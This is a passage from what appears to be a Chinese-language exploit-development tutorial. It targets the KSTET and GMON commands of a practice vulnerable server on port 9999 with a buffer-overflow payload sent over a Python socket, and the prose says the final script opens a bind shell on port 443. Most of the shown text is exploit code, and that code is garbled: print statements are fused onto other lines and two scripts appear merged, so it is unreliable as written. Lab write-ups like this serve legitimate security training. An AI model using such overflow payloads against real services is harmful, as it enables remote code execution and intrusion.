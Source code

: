 ```
payload += short_jmp
payload += "C" * (crash - len(payload))print "[+] Sending buffer (Size: %d)" % len(buf)**# GMON Command**
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 9999))
print(s.recv(1024))
s.send(buf)
s.close()print "[+] Sending buffer (Size: %d)" % len(payload)**# KSTET Command**
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 9999))
print(s.recv(1024))
s.send(payload)
s.close()
```

一旦我们运行了`final_kstet.py`脚本，我们就可以成功地在端口 443 上打开 bind shell。

![](img/aba74852befee0e82216e6f559851c39.png)

成功的

# 结论

概括一下:
